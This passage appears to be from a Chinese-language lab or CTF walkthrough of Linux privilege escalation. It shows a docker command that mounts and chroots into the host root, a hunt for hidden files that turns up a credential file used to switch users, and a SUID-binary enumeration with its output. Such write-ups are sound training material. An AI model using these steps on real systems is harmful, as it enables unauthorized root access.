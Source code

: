 ```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151438.png" alt="image-20240225011855018" style="zoom:50%;" />

### 隐藏文件+SID提权（bob->susan->root）

寻找一下隐藏文件，看看有没有可以利用的：

```bash
find . -type f -name ".*"
# ls -alR /home
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151439.png" alt="image-20240225013016913" style="zoom:50%;" />

看到一个`.secret`可能有用，看一下是啥，尝试登录到susan上去：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151440.png" alt="image-20240225013346414" style="zoom:50%;" />

成功！！！！

查看一下`SID`程序有哪些：

```bash
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
```

```text
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /snap/core/4917/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/4917/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/4917/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/4917/bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /snap/core/4917/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/4917/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/4917/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/4917/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/4917/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/4917/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/4917/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/4917/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /snap/core/4917/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98440 Jun 21  2018 /snap/core/4917/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 390888 Jan 29  2016 /snap/core/4917/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /snap/core/4486/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/4486/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/4486/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/4486/bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /snap/core/4486/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/4486/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/4486/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/4486/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/4486/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/4486/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/4486/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/4486/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /snap/core/4486/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 94344 Apr 16  2018 /snap/core/4486/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 390888 Jan 29  2016 /snap/core/4486/usr/sbin/pppd
-rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26696 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 146128 Nov 30  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
```